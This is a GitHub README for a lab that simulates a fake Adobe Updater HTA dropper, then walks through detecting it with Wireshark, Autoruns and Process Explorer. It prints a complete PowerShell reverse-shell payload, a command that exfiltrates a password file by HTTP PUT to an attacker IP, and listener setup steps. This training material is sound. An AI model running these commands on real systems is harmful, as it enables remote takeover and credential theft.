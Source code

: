 ### 💀 AdobeUpdater Intrusion Lab: Red Team Attack + Blue Team Detection 🛡️
---

> ⚠️ This project is designed to showcase my understanding of both **offensive** and **defensive** security workflows.  
> It was specifically created to demonstrate my skills to hiring managers for roles related to **SOC analysis**, and will later be expanded into a **full lab environment** that others can use to sharpen their detection skills.
---
> This lab focuses on one specific attack path and corresponding detection workflow. While there are many techniques I could have explored, this scenario was chosen to demonstrate core red team execution and blue team triage in a clear, focused, end-to-end simulation.

---

## 🧠 About This Lab

This hands-on intrusion simulation demonstrates the *full attack chain* — from phishing execution to post-exploitation — followed by detailed detection and investigation using tools like **Wireshark**, **Autoruns**, and **Process Explorer**.

I created everything from scratch:
- The **fake Adobe Updater** dropper (`.hta` with VBScript)
- Embedded **Base64-encoded PowerShell** for a reverse shell
- **Registry persistence** and stealth icon spoofing
- A custom **Python upload server** to simulate exfiltration

🧩 The walkthrough is split into two perspectives:
- 💀 **Red Team:** Step-by-step attack execution
- 🛡️ **Blue Team:** Detection and triage workflow
- 
---

## 🌌 Technical Overview

This simulation uses a **fake Adobe Updater UI** (`.hta`) that deploys:

- **PowerShell reverse shell** to a remote Netcat listener  
- **Registry Run key persistence**  
- **Stealthy VBScript execution**  
- **Decoy visuals** to enhance realism  
- **Base64 encoding and realistic icon spoofing**

🧪 Intended for ethical red team demonstrations, SOC analyst training, and future expansion into a full detection engineering lab.

The project directory is organized as follows:

## 📁 Project Structure
```
.
├── payload/ # HTA payload and artifacts
│ ├── AdobeUpdater.hta # Main dropper with embedded VBScript and UI
│ ├── adobe.ico # Spoofed Adobe icon
│ ├── adb1.png # Decoy loading screen
│ └── .gitkeep
├── analysis/
│ └── screenshots/ # All demo screenshots (1.png–27.png + kt1.png/kt2.png)
├── README.md
```
## 🔄 How It Works

1. **User executes** the `.hta` payload mimicking a legitimate Adobe updater.
2. Payload runs an embedded VBScript, which:
 - **Launches a PowerShell reverse shell**
 - **Adds a `Run` registry key for persistence**
 - **Displays a fake update window to distract the user**
3. **Reverse shell is caught** by the attacker's Netcat listener.

---

## 👁️ Demo Walkthrough

### 1. Attacker Prepares for Callback and File Exfiltration 

*On the attacker’s side, two terminals are opened — one to catch a reverse shell as shown in Figure 1, and<br>
one to handle file uploads as shown in Figure 2.*
<br><sub>(Figure 1)</sub><br>
<img src="analysis/screenshots/kt2.png" alt="Kali Terminal: Netcat Listener" width="75%"><br>
<em>In this terminal a Netcat listener is started on port 443 for the reverse shell.</em>
<br><sub>(Figure 2)</sub><br>
<img src="analysis/screenshots/kt1.png" alt="Kali Terminal: Upload Server" width="75%"><br>
<em>In this terminal, the attacker starts a Python upload server on port 8080.</em>
</p>

---

### 2. Fake Adobe Updater
*The malicious shortcut on the desktop mimics a genuine Adobe software updater.*
<br><sub>(Figure 3)</sub><br>
![Desktop Shortcut](analysis/screenshots/2.png)<br> 
*When the victim clicks on the decoy updater as shown in Figure 3, a window with a fake "critical security updates" message appears.<br> 
Once the OK button is clicked the connection is made back to the Netcat listener as shown in Figure 6*
<br><sub>(Figure 4)</sub><br>
![Installer Popup](analysis/screenshots/3.png)  
<br><sub>(Figure 5)</sub><br>
![Progress Bar](analysis/screenshots/4.png)  
*For an added, realistic effect a fake progress bar is shown
to mask the malicious activity.*<br>

---
### 3. Payload Execution & Reverse Shell Connection Made
*In Figure 6, we can see the attacker successfully catches the reverse shell and a connection is now established from the victim’s machine back to the attacker's Netcat listener.
Next, the attacker runs the `ls` command to list the contents of the current working directory.*
<br><sub>(Figure 6)</sub><br>
<img src="analysis/screenshots/5.png" alt="Payload connects" width="65%"><br>

### 4. Attacker Navigates the File System
*In Figure 7, the attacker begins backing out of the current directory using the `cd` command repeating `cd ..` until reaching the user's home directory.
They then run the `ls` command again and spot the Documents directory witch is there target.*
<br><sub>(Figure 7)</sub><br>
<img src="analysis/screenshots/6.png" alt="Directory listing" width="65%"><br>

*Figure 8 shows the attacker using the `cd` command to enter the Documents directory.*
<br><sub>(Figure 8)</sub><br>
<img src="analysis/screenshots/7.png" alt="Navigating directories" width="65%"><br>

*In Figure 9, we see the attacker has successfully navigated into the Documents folder. Inside, they spot a file named Passwords.txt.*
<br><sub>(Figure 9)</sub><br>
<img src="analysis/screenshots/8.png" alt="Accessing Documents" width="65%"><br>

---

### 5. Second Stage of the Attack: Uploading the File
*Now that the attacker has successfully navigated through the file system and reached the Documents directory, they’ve located the Passwords.txt file.
At this point they’re ready to begin the second stage of the attack. They’ve almost reached Step 7 of the Cyber Kill Chain — Actions on Objectives — but not quite yet.*

---
*In Figure 10, we can see the attacker preparing to use a PowerShell command with the PUT method to upload the Passwords.txt file to their Python-based upload server.*
<br><sub>(Figure 10)</sub><br>
<img src="analysis/screenshots/11.png" alt="Upload success" width="65%"><br>

*Refer to **Figure 11** for how the exfiltration command is constructed.*
<br><sub>(Figure 11)</sub><br>
<img src="analysis/screenshots/9.png" alt="PowerShell Exfiltration Command Reference" width="75%"><br>
Then, run the following PowerShell command to upload the `Passwords.txt` file to the attacker's Python server:
 ```powershell
powershell -c "Invoke-WebRequest -Uri http://192.168.78.129:8080/Passwords.txt -Method Put -InFile 'C:\Users\IEUser\Documents\Passwords.txt'"
# ⚠️ Make sure to update the IP address to match your attacker's listener
```
---
*In Figure 12, we return to the second terminal first mentioned in Figure 2. This is the terminal running the Python upload server on port 8080, and you'll notice it’s still idle. For this demo, the folder containing the Python script has been opened and placed at the bottom of the screen. The reason: if anything gets uploaded, we’ll see it appear here in real-time. As of now, there are only four files in the directory.*
<br><sub>(Figure 12)</sub><br>
<img src="analysis/screenshots/10.png" alt="Exfiltration command" width="65%"><br>

*Next in Figure 13, after the PowerShell command from Figure 10 is run, we get a hit — the `Passwords.txt` file is displayed in the command line output. And just like we talked about in Figure 12, the folder now shows five files, one of them being `Passwords.txt,` confirming the upload was successful.*
<br><sub>(Figure 13)</sub><br>
<img src="analysis/screenshots/12.png" alt="Wireshark: TCP stream" width="65%"><br>

---
## 🛡️ Defender’s Perspective: Detecting the Attack in Action

Now that we’ve followed the attacker’s full playbook — from clicking the fake Adobe updater to catching a reverse shell and exfiltrating `Passwords.txt` — let’s switch gears and step into the defender’s shoes.

This next section walks through how security analysts can spot and respond to this kind of behavior using network traffic analysis tools like Wireshark, autorun entries, and Process Explorer.

---

In **Figure 14**, we have a Wireshark capture that was running during the attack. In this screenshot, we can see a `PUT` request made for the `Passwords.txt` file — indicating possible data exfiltration over HTTP.
<br><sub>(Figure 14)</sub><br>
<img src="analysis/screenshots/13.png" alt="Wireshark: HTTP PUT" width="75%"><br>

In **Figure 15**, now that we’ve confirmed a PUT request occurred, we can filter the capture to isolate it. To do this, we type the following into Wireshark’s display filter bar `http.request.method == "PUT"`
Then hit the **blue arrow** in the top-right to apply the filter.
<br><sub>(Figure 15)</sub><br>
<img src="analysis/screenshots/15.png" alt="Wireshark Focused" width="75%"><br>

In **Figure 16**, we see there was only one `PUT` request made, which confirms our earlier finding — the exfiltrated file was `Passwords.txt`.
<br><sub>(Figure 16)</sub><br>
<img src="analysis/screenshots/16.png" alt="Follow Stream" width="75%"><br>

Next, in **Figure 17**, if we right-click on the filtered packet and choose **Follow > HTTP Stream** (highlighted in blue). This allows us to view the entire payload of the HTTP session and validate what was transferred.
<br><sub>(Figure 17)</sub><br>
<img src="analysis/screenshots/18.png" alt="Exfiltrated Contents" width="65%"><br>

In **Figure 18**, after following the HTTP stream, we can see the full contents of the `PUT` request — exposing exactly what the attacker exfiltrated.
We also see other important details, such as the server responding with a `201 Created` status, confirming a successful upload. The `User-Agent` header shows the transfer was performed using `Python/3.11.9`, pointing to Python’s built-in `http.server` module.
An internal host sending a `PUT` request over port 8080 using non-standard tools like this should raise red flags during packet inspection.
<br><sub>(Figure 18)</sub><br>
<img src="analysis/screenshots/19.png" alt="Autoruns Registry" width="65%"><br>

---
### 🔍 Persistence Detection via Autoruns and Registry Analysis

In this section, we identify how the attacker achieved persistence using a registry-based autorun entry. The screenshots below walk through the detection process using Sysinternals Autoruns and the Windows Registry Editor.

---

**Figure 19** shows a suspicious autorun entry under:`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
The entry is named `AdobeTaskHelper`, but it's launching `powershell.exe` instead of a legitimate Adobe executable. This is an immediate red flag.<br>
There is no known Adobe tool that launches via PowerShell, and the naming is clearly meant to blend in with trusted vendor software.
<br><sub>(Figure 19)</sub><br>
<img src="analysis/screenshots/20.png" alt="Registry Key Contents" width="65%"><br>

Next, in **Figure 20** we can right-click the suspicious entry in Autoruns and choose **Jump to Entry** to check the corresponding registry location for validation.
<br><sub>(Figure 20)</sub><br>
<img src="analysis/screenshots/21.png" alt="Process Explorer Powershell" width="65%"><br>

**Figure 21** confirms the full registry key using **Regedit**. The `AdobeTaskHelper` entry executes the following command at startup:<br>`powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command ...`
This PowerShell command is used to maintain persistence by silently relaunching the attacker’s reverse shell payload on system boot. Combined with the misleading name and stealthy execution, this is a textbook example of registry-based persistence via PowerShell masquerading.
<br><sub>(Figure 21)</sub><br>
<img src="analysis/screenshots/22.png" alt="Process Image Path" width="65%"><br>

---
### 🔍 Process Inspection with Process Explorer

This section highlights suspicious process behavior observed using Sysinternals Process Explorer. 

---
**Figure 22** shows a suspicious `powershell.exe` process running under the user `IEUser`. This process is not expected under normal conditions and does not match any known authorized scripts.
<br><sub>(Figure 22)</sub><br>
<img src="analysis/screenshots/23.png" alt="TCP/IP Connections" width="65%"><br>

**Figure 23** drills into the process properties of `powershell.exe`. The command line confirms it’s executing with<br>
`-ExecutionPolicy Bypass -WindowStyle Hidden`, which is commonly used to evade detection. The **current directory** is also telling — it's set to:`C:\Users\IEUser\Downloads\Test Malware\AdobeUpdater\` This aligns directly with the malicious payload path.
<br><sub>(Figure 23)</sub><br>
<img src="analysis/screenshots/24.png" alt="Payload Directory" width="55%"><br>

**Figure 24** shows the **TCP/IP** tab of the same process, confirming it has an active network connection to:`192.168.78.129:HTTPS`<br>This indicates that the PowerShell process is maintaining a live connection — supporting evidence of a reverse shell callback.
<br><sub>(Figure 24)</sub><br>
<img src="analysis/screenshots/25.png" alt="Payload Shortcut" width="55%"><br>

**Figure 25** shows the PowerShell process’s working directory alongside the actual folder contents in File Explorer. The folder contains the Adobe files including the shortcut named `AdobeUpdater` — which was placed on the user’s desktop.This shortcut is what the user initially interacted with, triggering the chain of events. This visually confirms how the attack was disguised as a legitimate update and how the user was tricked into executing it.
<br><sub>(Figure 25)</sub><br>
<img src="analysis/screenshots/27.png" alt="Attacker Listener" width="65%"><br>

---


## 📃 MITRE ATT&CK Mapping

| Technique         | ID         | Description                        |
|------------------|------------|------------------------------------|
| Initial Access    | T1204.002  | User Execution via HTA             |
| Execution         | T1059.001  | PowerShell                         |
| Persistence       | T1547.001  | Registry Run Key                   |
| Defense Evasion   | T1218.005  | LOLBAS via `wscript.exe`           |
| Command & Control | T1071.001  | Reverse Shell over TCP             |


---

## 🔧 Remediation and Recommendations

### 🧹 Immediate Cleanup

- **Delete the following malicious files from disk:**
 `C:\Users\IEUser\Downloads\Test Malware\AdobeUpdater\AdobeUpdater.hta`
- Any downloaded reverse shell payloads saved to `%TEMP%`
- **Remove registry-based persistence:**
  - Delete the `Run` key entry:
    `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\AdobeTaskHelper`

---

### 🔐 Credential Response

- **Passwords.txt was exfiltrated.** All credentials listed in that file must be considered compromised and changed immediately.
- Review logs to confirm there were no unauthorized logins using the compromised credentials.
- Ensure password rotation policies are enforced for both local accounts and external services.
- Investigate for signs of lateral movement or reuse of these credentials elsewhere in the environment.

---

### 🔒 System Hardening

- **Block outbound traffic** to the attacker IP: `192.168.78.129` (or any future simulation IPs).
- **Restrict execution of `.hta` and `.vbs` files** via Group Policy or application allowlisting.
- **Disable Windows Script Host (WSH)** on systems where it is not required:
 - Set the following registry key: 
   `HKLM\Software\Microsoft\Windows Script Host\Settings`
   `Enabled = 0`
 
---


## 🚧 This section is under construction. **Full Lab Replication Coming Soon !🚧**  
This section will include a full step-by-step guide for recreating the AdobeUpdater attack lab, including payload setup, reverse shell callback, and detection tuning.

---
> ⚠️ Educational Use Only:  
> The following code is shown as part of a red team simulation in a controlled lab environment. Do **not** use this on unauthorized systems.

## Setup Instructions 
## 🧪 PowerShell Reverse Shell (Payload)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.78.129",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()

```

1. **Start Netcat listener on Kali**
   ```bash
   nc -lvnp 443
   ```

2. **Serve the payload**
   ```bash
   cd payload/
   python3 -m http.server 8888
   ```

3. **Trigger on victim**
   - Browse to hosted `.hta` from Windows VM
   - Execute it

---

## 🗋 Notes

- Tested on Windows 10 with default settings
- Avoid running on production systems
- Always use in an isolated lab environment

> **Disclaimer:** For educational use only. Do not deploy on unauthorized systems.

---

